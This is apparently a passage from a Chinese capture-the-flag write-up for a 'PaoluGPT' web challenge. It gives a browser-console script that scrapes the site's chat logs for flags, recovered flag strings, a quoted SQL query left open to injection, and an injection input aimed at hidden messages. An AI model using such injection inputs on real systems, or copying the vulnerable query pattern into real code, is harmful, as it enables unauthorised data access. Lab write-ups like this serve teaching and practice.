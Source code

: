 `flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_86e388ff83}`

## PaoluGPT

### 千里挑一

Web的事情就让Web来解决吧~ +1

进入查看聊天记录页面，在浏览器控制台执行：

``` typescript
let links = document.querySelectorAll("a")
for (let i = 0; i < links.length; i++) {
    //遍历所有对话
    if (links[i].href.includes("view")) {
        fetch(links[i].href, {
            method: 'GET',
            headers: {
                'Content-Type': 'text/html',
            }
        })
            .then(response => response.text())
            .then(html => {
                let parser = new DOMParser()
                let doc = parser.parseFromString(html, "text/html")
                let _html = doc.querySelector(".container .pt-3").innerHTML
                //输出包含flag的对话
                if (_html.includes("flag")) {
                    console.log(_html)
                }
            })
            .catch(error => {
                console.log(error)
            })
    }
}
```

稍等一会，得到：

`flag{zU1_xiA0_de_11m_Pa0lule!!!_196f3121f3}`

### 窥视未知

查看Python源码，注意到：

``` Python
results = execute_query("select id, title from messages where shown = true", fetch_all=True)
…
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```

默认不显示`shown=true`的对话，推测另一个flag应该就是在`shown=false`的对话中，同时下边SQL查询的存在注入风险，然后构造`' or where shown = false--`

